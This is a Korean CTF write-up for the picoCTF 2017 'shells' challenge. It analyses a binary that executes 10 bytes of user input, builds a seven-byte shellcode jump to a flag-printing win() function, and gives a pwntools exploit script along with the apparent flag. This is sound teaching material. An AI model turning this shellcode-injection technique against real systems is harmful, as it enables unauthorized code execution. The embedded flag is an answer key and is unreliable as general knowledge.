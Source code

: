 `#asm`
- [Description](#description)
- [Analysis](#analysis)
- [Exploit code](#exploit-code)
## Description
How much can a couple bytes do?  
Use [shells](https://webshell2017.picoctf.com/static/8e8374627189dd4e8e27ec41eed166a1/shells)!  
[Source](https://webshell2017.picoctf.com/static/8e8374627189dd4e8e27ec41eed166a1/shells.c).  
Connect on shell2017.picoctf.com:50454.  

## Analysis
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("My mother told me to never accept things from strangers");
  puts("How bad could running a couple bytes be though?");
  fflush(stdout);
  vuln();
  return 0;
}
```
main() 에는 vuln() 함수 호출하는게 전부였다.  
```
int vuln()
{
  void *buf; // [sp+Ch] [bp-Ch]@1

  buf = mmap(0, 0xAu, 7, 34, 0, 0);
  if ( buf == (void *)-1 )
  {
    puts("Failed to get space. Please talk to admin");
    exit(0);
  }
  printf("Give me %d bytes:\n", 10);
  fflush(stdout);
  if ( !read(0, buf, 0xAu) )
  {
    printf("You didn't give me anything :(");
    exit(0);
  }
  return ((int (*)(void))buf)();
}
```
vuln() 마지막 줄을 보면  
지역변수 buf 를 호출하고 있다.  
바로 여기에 초점을 맞추면 된다.  
  
그렇기 때문에 read(buf, 0xA); 에서 attack!  

```
[0x08048440]> afl
...
0x08048540    1 24           sym.win
0x08048560    5 165          sym.vuln
0x08048610    1 84           sym.main
...
```
strip 되어있지 않아  
win() 이라는 사용자정의함수가 보인다.  
```
int win()
{
  return system("/bin/cat ./flag.txt");
}
```
  
vuln() 에 있었던 지역변수 buf 는 mmap() 으로부터 주소를 받으므로  
win() 을 호출할 어셈을 read(buf,0xA); 에 넣어야 한다.  
  
```
   0:   b8 40 85 04 08          mov    eax,0x8048540
   5:   ff e0                   jmp    eax
```

## Exploit code
```
from pwn import *

r = remote('shell2017.picoctf.com', 50454)
r.recvuntil(':\n')
r.sendline('\xb8\x40\x85\x04\x08\xff\xe0')
r.interactive()
# b3b5aa513a9339475cd1054588bb70fd
```
